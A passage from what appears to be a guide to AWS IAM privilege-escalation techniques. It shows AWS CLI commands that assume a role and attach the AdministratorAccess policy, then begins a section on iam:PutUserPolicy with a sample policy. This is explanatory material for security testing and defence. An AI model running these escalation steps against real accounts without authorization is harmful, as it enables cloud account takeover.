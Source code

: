 First, the attacker assumes the role in the target AWS account:

```bash
➜ aws sts assume-role --role-arn arn:aws:iam::[REDACTED]:role/privesc9 --role-session-name privesc9 --profile awstwo
```

```json
{
    "AssumedRoleUser":{
        "AssumedRoleId": "AROAS4WERQEFLKYC5DHRI:privesc9",
        "Arn": "arn:aws:sts::[REDACTED]:assumed-role/privesc9/privesc9"
    },
    "Credentials": {
        "SecretAccessKey": "[REDACTED]",
        "SessionToken": "[REDACTED]",
        "Expiration": "2019-09-05T18:53:48Z",
        "AccessKeyId": "[REDACTED]"
    }
}
```

After adding the session credentials to a new AWS profile (named assumedrole in the example below), the attacker escalates privileges by attaching a new policy to the role:

```bash
➜ aws iam attach-role-policy --role-name privesc9 --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile assumedrole
```

The attacker now has administrator access to the AWS account.

## 10 - iam:PutUserPolicy

### Description
Users with the iam:PutUserPolicy can create or update an inline policy for a user, potentially allowing them to add permissions that they don't currently have to their account.

### Requirements
The user needs to have the iam:PutUserPolicy permission for an account that they can access.

### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:PutUserPolicy on all users:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:PutUserPolicy",
      "Resource": "arn:aws:iam::*:user/*"
    }
  ]
}
```
